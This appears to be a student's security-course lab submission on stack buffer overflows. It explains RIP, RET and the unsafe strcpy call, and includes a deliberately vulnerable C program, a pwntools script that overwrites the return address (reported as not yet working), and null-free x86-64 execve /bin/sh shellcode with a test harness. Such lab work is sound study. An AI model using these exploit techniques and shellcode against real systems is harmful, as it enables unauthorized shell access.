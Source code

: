 ## Task 1

### Task 1.A.1

The _rip_ register is the instruction pointer register and it automatically stores the memory address of the next instruction once the an instruction is fetched and executed. This helps the program to be executed sequentially. 

The _RET_ intruction is used to return the program control to a return address on the top of the stack. The program control is returned from a subroutine such as function or procedure, to the calling code of the stack before the function was executed. 

When there are more inputs in the buffer than the data that it's supposed to hold, the adjacent memory locations can be overwritten including the return address of the call stack. The _RET_ instruction execution can lead to a memory location with an address of an attacker's choice which could be a malicious code. 

### Task 1.A.2

The buffer overflow occurs in the **line 7** if the _strcpy_ keeps writing the data from _string_ to _buffer_. This can occur if the user inputs a string longer than _buffer[20]_ which is  characters. The _strcpy_ should be edited in order to validate the length of the user input and also the null terminator in the string.

### Task 1.A.3

The codes are emulated to 64-bit system. 

Info breakpoint:
![image](https://github.com/SoftwareHardwareSecurity-2023/software-and-hardware-security-submissions-PiyumiUoR/assets/53691448/a8e0eac9-f183-4df4-a7d5-09c51c3e0299)

The _helloworld_ has stored in ```0x7fffffffdd80```. The hexadecimal format of _helloworld_ is ```68 65 6c 6c 6f 77 6f 72 6c 64```. 
![image](https://github.com/SoftwareHardwareSecurity-2023/software-and-hardware-security-submissions-PiyumiUoR/assets/53691448/f79ca262-b361-40f6-acb4-a27406b3fe5c)

The _RIP_ value is overwritten once the number of charcters exceeds 24. The commandline input is _helloworldhelloworldhello_ which having 25 charactors. 
Padding size = 24
![image](https://github.com/SoftwareHardwareSecurity-2023/software-and-hardware-security-submissions-PiyumiUoR/assets/53691448/53945dba-5698-4aee-b22b-1653c25b6edd)

## Task 1.B

Breakpoint:

![image](https://github.com/SoftwareHardwareSecurity-2023/software-and-hardware-security-submissions-PiyumiUoR/assets/53691448/73d660c5-c401-419f-834e-72d14bfbc643)

_RSP_:

![image](https://github.com/SoftwareHardwareSecurity-2023/software-and-hardware-security-submissions-PiyumiUoR/assets/53691448/5c8bbaf2-1148-43c5-a1cc-29fd4039360f)

By inserting the 24 charctors of 'A', the _rax_ which means the function's return value has been changed to ASCII value of 'BBBBBBBB'.

![image](https://github.com/SoftwareHardwareSecurity-2023/software-and-hardware-security-submissions-PiyumiUoR/assets/53691448/8bedc1e9-028c-4e3c-9a10-1dc60172bc80)

The new code:
```c
#include <string.h>
#include <stdio.h>
#include <stdlib.h>

void target_function() {
    printf("Exploited! You have control!\n");
    system("/bin/sh");    
}

void stackoverflow(char* payload) {
    char buffer[20];
    strcpy(buffer, payload); 
    printf("%s\n", buffer);
    return;
}

int main(int argc, char** argv) {
    printf("Starting the vulnerable program...\n");
    stackoverflow(argv[1]);
    printf("Program continues...\n");
    return 0;
}
```

The address was changed into the new function location. But having null bytes in the address alters the return value from ```0x0000555555555169```. 

![image](https://github.com/SoftwareHardwareSecurity-2023/software-and-hardware-security-submissions-PiyumiUoR/assets/53691448/ea2c603a-7983-4b90-b049-c32c1781d9a0)

I couldn't find a solution for above issue yet. 

 

## Task 1.C

The code was altered in order to work in 64-bit. 

```python
from pwn import *
context.update(arch='amd64', os='linux', endian='little', word_size=64)
context.binary="./overflow"

def main():
    # Our beloved target binary
    # Note that this generates virtual address space
    task_bin = ELF('./overflow')
    # Payload to be passed into the program
    PADDING_SIZE = 24
    payload = b"A" * PADDING_SIZE
    # Get address of the function automatically!
    # What are symbols of the compiled program?
    secret = task_bin.symbols['target_function']
    # 'I' means unsigned as integer, convert integer to hexbytes with correct alignment
    # payload += struct.pack('I', secret)

    payload += struct.pack('Q', secret)    
    print(f'Secret address {hex(secret)}')
    p = task_bin.process(argv=[payload])
    print(p.recvall().decode("utf-8", "ignore"))
    # p.interactive() # if your function spawns a shell

if __name__ == "__main__":
    main()
```

The output appears as below.

![image](https://github.com/SoftwareHardwareSecurity-2023/software-and-hardware-security-submissions-PiyumiUoR/assets/53691448/09af7624-6769-47f2-b6c4-c9fb3afab3b6)

I haven't got time to fix the error. The same issue in task 1.b has appeard here.

# Task 2

## Task 2.A

Machine code:

![image](https://github.com/SoftwareHardwareSecurity-2023/software-and-hardware-security-submissions-PiyumiUoR/assets/53691448/1f8d38b9-8395-40e7-a935-c6ffe9cd4c52)

The ```.asm``` code for 64-bit system. 

```asm
section .text
global _start

_start:

; Zero out RAX
xor rax, rax

; Push null-terminated "/bin/sh" string onto the stack
push rax
mov rbx, 0x68732f6e69622f2f ; "/bin/sh" in reverse order
push rbx

; Move the address of the string to RDI (first argument for execve)
mov rdi, rsp

; Zero out RDX and RSI (null-terminate the argument list)
xor rdx, rdx
xor rsi, rsi

; Set syscall number for execve (59) in RAX
mov al, 59

; Call syscall
syscall
```

The machine code after eliminating null bytes. 

![image](https://github.com/SoftwareHardwareSecurity-2023/software-and-hardware-security-submissions-PiyumiUoR/assets/53691448/e3836980-24d5-4c5d-ac2f-8fb06994b90c)

Shellcode array: ```shellcode[] = "\x48\x31\xc0\x50\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x53\x48\x89\xe7\x48\x31\xd2\x48\x31\xf6\xb0\x3b\x0f\x05";```

Test program:
```c
#include<stdio.h>
#include<string.h>

void main()
{
    char shellcode[] = "\x48\x31\xc0\x50\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x53\x48\x89\xe7\x48\x31\xd2\x48\x31\xf6\xb0\x3b\x0f\x05";
    void(*fp) (void);
    fp = (void *)&shellcode;
    fp();
}
```

Output:

![image](https://github.com/SoftwareHardwareSecurity-2023/software-and-hardware-security-submissions-PiyumiUoR/assets/53691448/dbc2608a-b697-4d11-9b36-34758d21502a)

## Task 2.B
